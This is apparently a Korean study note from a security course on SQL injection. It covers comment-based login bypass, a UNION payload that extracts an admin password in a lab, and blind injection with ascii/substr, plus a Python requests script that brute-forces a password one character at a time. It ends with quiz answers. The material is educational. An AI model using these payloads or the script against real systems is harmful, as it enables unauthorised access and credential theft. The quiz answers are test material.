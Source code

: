 # SQL Injection  
**SQL Injection** : DBMS에서 사용하는 **쿼리를 임의로 조작**해 데이터베이스의 **정보를 획득**하는 공격  
**인젝션 공격** : **이용자의 입력값**이 **구조**나 **문법적인 데이터**로 **해석**되어 발생하는 취약점  
<img src="1.jpg">  
<img src="15.jpg">  
다음은 SQL Injection 의 예시입니다.  
원래는 맨 위에 있는 것처럼 요청을 보내서 색깔을 지정한다. 
그러나 **올바르지 않은 요청**을 보내서 **의도하지 않은 행위**(공장 가동 종료 등)를 하게 하는 것을 **인젝션** 이라고 한다.  
## SQL Injection  
웹 서비스에서 ID/PW 를 포함해서 **로그인**을 할 때, **게시글**의 제목과 내용을 적고 **게시**를 할 때, **ID/PW 나 제목/내용** 을 **SQL 구문**에 넣습니다.  
<img src="2.jpg"> <img src="3.jpg">  
위의 Figure 2 는 로그인 할 때, 질의하는 SQL 구문에 입력한 id, pw 가 포함된 것을 알 수 있습니다.  
-> 이를 SQL Injection 이라고 합니다.  
반면에 Figure 3 는 SQL Injection 을 통해, id 가 admin 이면, pw를 확인하지 않게 조작을 했습니다.  
## Simple SQL Injection  
<img src="4.jpg"> <img src="5.jpg">  
다음과 같이 데이터베이스 **user_table** 과 **login 하는 실습창**이 있습니다.  
위와 같이 **uid, upw** 에 **guest** 를 적으면, 아래에 있는 **SQL 구문에 들어가는 것**을 볼 수 있습니다.  
현재 admin 으로 로그인하고 싶은데 upw 를 몰라서 할 수 없다.  
그러나, 이를 잘 이용해서 **upw를 확인하는 곳을 주석 처리**하면 **uid 가 admin 인 경우에 로그인** 할 수 있다.  
참고로 주석은 --, #, /**/ 등이 있습니다.  
<img src="6.jpg"> <img src="7.jpg">  
다음과 같이 입력해서 upw 확인하는 곳을 주석 처리하면 로그인이 돱니다.  
여기서 이 실습은 admin의 upw 을 알아내는 실습입니다.  
SQL 에는 **UNION** 이라는 연산자가 있습니다.  
UNION 은 **두 개 이상의 결과 집합을 결합**합니다.  
즉, 앞에는 admin 에 대한 uid 를 조회하는 구문이므로 위에 admin에 대한 upw 를 조회하는 구문을 입력해 UNION 하면 된다.  
<img src="8.jpg"> <img src="9.jpg">  
그래서 공격 쿼리문을 **admin' UNION Select upw from user_table where uid='admin'--** 과 같이 적었다.  
그 결과 SQL 구문이 **Select uid from user_table where uid='admin' UNION Select upw from user_table where uid='admin'--' and upw='12345'** 로 변했고, admin 의 upw 인 **strawberry** 가 나온 것을 알 수 있다.  
## Blind SQL Injection  
<img src="10.jpg"> <img src="11.jpg">   
Blind SQL Injection 는 위에 있는 그림처럼 DBMS 의 **질의 결과**를 이용자가 화면에서 직접 **확인하지 못할 때** **참/거짓 반환 결과**로 **데이터를 획득**하는 공격 기법이다.  

## Blind SQL Injection 예시  
ascii : 입력받은 **문자를 아스키 코드로** 반환하는 함수  
substr : 입력받은 **문자열에서 지정한 위치부터 길이까지의 값**을 가져오는 함수  
```SQL
substr(string, position, length)
substr('ABCD', 1, 1) = 'A'
substr('ABCD', 2, 2) = 'BC'
```
<img src="12.jpg">  
위의 코드가 Blind SQL Injection 공격 쿼리이다.  
2, 3번째 줄을 보면, upw의 첫번째 문자가 r, s 인지 물어본다.  
그리고 6, 7번째 줄을 보면, upw의 두 번째 문자가 s, t 인지 물어본다.  

## Blind SQL Injection 공격 스크립트  
Blind SQL Injection은 한 바이트씩 비교하여 공격하는 방식이기 때문에 많은 시간이 걸린다.  
이 때, 파이썬에서 **requests** 라는 라이브러리를 통해 좀 더 수월하게 할 수 있다.  
<img src="13.jpg"> <img src="14.jpg">  
Figure 5 는 GET 메소드를 이용하는 방식으로 14번째 줄에서 for문을 통해 자동으로 질의를 할 수 있다.  
Figure 6 도 마찬가지인데, POST 메소드를 이용한다.  

## Blind SQL Injection 스트립트 작성  
```python
#!/usr/bin/python3
import requests
import string
# example URL
url = 'http://example.com/login'
params = {
    'uid': '',
    'upw': ''
}
# abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~
tc = string.ascii_letters + string.digits + string.punctuation
# 사용할 SQL Injection 쿼리
query = '''
admin' and ascii(substr(upw,{idx},1))={val}--
'''
password = ''
# 비밀번호 길이는 20자 이하라 가정
for idx in range(0, 20):
    for ch in tc:
        # query를 이용하여 Blind SQL Injection 시도
        params['uid'] = query.format(idx=idx+1, val=ord(ch)).strip("\n")
        c = requests.get(url, params=params)
        print(c.request.url)
        # 응답에 Login success 문자열이 있으면 해당 문자를 password 변수에 저장
        if c.text.find("Login success") != -1:
            password += ch
            break
print(f"Password is {password}")
```
비밀번호를 알아내기 위해 Blind SQL Injection 을 하기 위해 위와 같이 코드를 짤 수 있다.  
먼저 비밀번호는 알파벳과 숫자, 특수 문자로 이뤄진다.  
아스키 범위로 나타내면 32부터 126까지의 모든 문자이다.  
**for idx in range(0, 20):** 를 보면, 20자리 이하의 비밀번호를 찾을건데, **params['uid'] = query.format(idx=idx+1, val=ord(ch)).strip("\n")** 를 통해 query를 계속 바꿔서 Blind SQL Injection 을 한다.  
그래서 로그인에 성공하면, password 를 보여준다.  
# 퀴즈  
```SQL
SELECT * FROM accounts QHERE user_id='admin' and user_pw='(A)'
```
1. 다음 SQL Query의 (A) 부분에 입력 값을 넣을 수 있다고 할 때, id가 admin 계정으로 로그인이 가능한 SQL Injection 페이로드를 모두 고르시오.  
답 : **' or 1=1-- 1**, **'+(select user_pw from accounts where user_id='admin')+'**  
2. 실습 모듈에서 획득한 admin의 비밀번호는 (A) 입니다. (A)에 들어갈 말로 올바른 것은?   
답 : strawberry  
3. 다음 중 일반적인 상황에서 SQL Injection으로 할 수 없는 행위를 고르시오. (MySQL 기준)  
답 : 내부망 침투하기  
